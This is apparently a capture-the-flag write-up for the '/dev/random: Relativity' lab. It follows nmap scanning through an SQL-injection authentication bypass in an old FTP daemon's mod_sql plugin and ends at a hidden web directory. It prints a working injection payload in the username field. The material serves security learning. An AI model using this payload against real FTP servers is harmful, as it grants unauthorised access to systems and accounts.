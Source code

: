 ```yaml
---

layout: post
title: "/dev/random: Relativity"
modified: Sat Nov 26 17:22:14 GMT 2016
date: Sat Nov 26 17:22:14 GMT 2016
image: 
  link: posts/dev-random-relativity/presentation.jpg
  credit_link: https://unsplash.com/

---
```


Writeup by [npny](https://github.com/npny) and [nobe4](https://github.com/nobe4).

`nmap` reveals the following open ports: `21`,`22`, `80`.

The `HTTP` does not reveal anything special, static `HTML`.

On the ports `21` and `22` the default/basic username don't work.

We can see the `FTP` on port `21` is an old `ftpd` version with the `mod_sql` activated.

[From](http://phrack.org/issues/67/7.html) [various](https://www.exploit-db.com/exploits/43/) [links](https://www.exploit-db.com/exploits/32798/) we understand that there is a `SQL` injection on this plugin that allow a user to login without valid credentials.

Using the code on [this exploit](http://www.securityfocus.com/bid/33722/exploit) doesn't work but changing the `--` with `#` (another comment symbol) works, the payload is:

```bash
username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users;#
password: 1
```

It seems the `FTP` is in [passive mode](http://slacksite.com/other/ftp.html), which doesn't really matter, but was interesting to understand. Now we are logged in, we can see what is available in the `FTP`:

```ftp
ftp> ls /
---> PORT 192,168,1,72,249,154
200 PORT command successful
---> LIST /
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
-rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
-rw-r--r--   1 root     root          130 Mar  5  2013 index.html
226 Transfer complete.
```

We can't get any file as the are owned by root, but we can see a _hidden_ directory `0f756638e0737f4a0de1c53bf8937a08`, accessible by `HTTP`:

```bash
http://ctf02.root-me.org/0f756638e0737f4a0de1c53bf8937a08/
```
